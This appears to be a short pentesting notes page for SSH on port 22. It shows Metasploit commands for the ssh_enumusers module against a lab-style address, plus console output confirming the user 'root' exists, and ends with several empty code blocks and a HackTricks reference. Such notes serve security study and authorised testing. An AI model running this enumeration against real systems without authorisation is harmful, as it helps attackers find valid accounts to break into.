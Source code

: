22-SSH

# 
- [Username Enumeration](#username-enumeration)

-------------------------------------------

## Username Enumeration
### 
```sh
msfconsole
search ssh enum
use auxiliary/scanner/ssh/ssh_enumusers
grep yes options
set RHOSTS 10.10.10.107
set USERNAME root
run
```

### 
```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 10.10.10.107:22 - SSH - Using malformed packet technique
[*] 10.10.10.107:22 - SSH - Checking for false positives
[*] 10.10.10.107:22 - SSH - Starting scan
[+] 10.10.10.107:22 - SSH - User 'root' found				# User 'root' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_enumusers) >
```

### 
```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USERNAME none
USERNAME => none
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 10.10.10.107:22 - SSH - Using malformed packet technique
[*] 10.10.10.107:22 - SSH - Checking for false positives
[*] 10.10.10.107:22 - SSH - Starting scan
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_enumusers) >
```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

### 
```sh

```

# References

**22 - Pentesting SSH/SFTP**

https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh